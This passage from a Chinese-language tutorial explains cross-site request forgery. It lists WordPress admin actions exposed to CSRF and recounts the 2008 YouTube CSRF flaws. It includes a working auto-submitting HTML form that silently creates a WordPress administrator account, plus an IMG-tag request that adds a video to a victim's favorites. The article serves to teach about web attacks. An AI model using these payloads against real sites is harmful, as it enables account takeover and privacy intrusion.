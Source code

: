 - Add Admin/User
- Delete Admin/User
- Approve comment
- Unapprove comment
- Delete comment
- Change background image
- Insert custom header image
- Change site title
- Change administrator's email
- Change Wordpress Address
- Change Site Address

那么这个漏洞实际上就是攻击者引导用户先进入目标的 WordPress，然后点击其钓鱼站点上的某个按钮，该按钮实际上是表单提交按钮，其会触发表单的提交工作，添加某个具有管理员权限的用户，实现的码如下：

```html
<html>
<body onload="javascript:document.forms[0].submit()">
<H2>CSRF Exploit to add Administrator</H2>
<form method="POST" name="form0" action="http://<wordpress_ip>:80/wp-admin/user-new.php">
<input type="hidden" name="action" value="createuser"/>
<input type="hidden" name="_wpnonce_create-user" value="<sniffed_value>"/>
<input type="hidden" name="_wp_http_referer" value="%2Fwordpress%2Fwp-admin%2Fuser-new.php"/>
<input type="hidden" name="user_login" value="admin2"/>
<input type="hidden" name="email" value="admin2@admin.com"/>
<input type="hidden" name="first_name" value="admin2@admin.com"/>
<input type="hidden" name="last_name" value=""/>
<input type="hidden" name="url" value=""/>
<input type="hidden" name="pass1" value="password"/>
<input type="hidden" name="pass2" value="password"/>
<input type="hidden" name="role" value="administrator"/>
<input type="hidden" name="createuser" value="Add+New+User+"/>
</form>
</body>
</html>
```

### YouTube 的 CSRF 漏洞

2008 年，有安全研究人员发现，YouTube 上几乎所有用户可以操作的动作都存在 CSRF 漏洞。如果攻击者已经将视频添加到用户的“Favorites"，那么他就能将他自己添加到用户的“Friend" 或者“Family" 列表，以用户的身份发送任意的消息，将视频标记为不宜的，自动通过用户的联系人来共享一个视频。例如，要把视频添加到用户的“Favorites"，攻击者只需在任何站点上嵌入如下所示的 IMG 标签：

```html
<img src="http://youtube.com/watch_ajax?action_add_favorite_playlist=1&video_
id=[VIDEO ID]&playlist_id=&add_to_favorite=1&show=1&button=AddvideoasFavorite"/>
```

攻击者也许已经利用了该漏洞来提高视频的流行度。例如，将一个视频添加到足够多用户的“Favorites"，YouTube 就会把该视频作为“Top Favorites" 来显示。除提高一个视频的流行度之外，攻击者还可以导致用户在毫不知情的情况下将一个视频标记为“不宜的 "，从而导致 YouTube 删除该视频。

这些攻击还可能已被用于侵犯用户隐私。YouTube 允许用户只让朋友或亲属观看某些视频。这些攻击会导致攻击者将其添加为一个用户的“Friend" 或“Family" 列表，这样他们就能够访问所有原本只限于好友和亲属表中的用户观看的私人的视频。

攻击者还可以通过用户的所有联系人名单（“Friends"、“Family" 等等）来共享一个视频，“共享 " 就意味着发送一个视频的链接给他们，当然还可以选择附加消息。这条消息中的链接已经并不是真正意义上的视频链接，而是一个具有攻击性的网站链接，用户很有可能会点击这个链接，这便使得该种攻击能够进行病毒式的传播。
